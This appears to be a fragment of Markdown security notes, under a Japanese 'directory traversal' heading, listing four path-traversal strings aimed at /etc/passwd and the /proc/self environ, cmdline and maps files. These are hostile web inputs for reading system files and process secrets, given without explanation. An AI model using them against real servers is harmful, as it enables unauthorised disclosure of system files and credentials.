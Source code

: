 # Web

## ディレクトリトラバーサル

```bash
../../../../../../../../../../etc/passwd
../../../../../../../../../../proc/self/environ
../../../../../../../../../../proc/self/cmdline
../../../../../../../../../../proc/self/maps
```
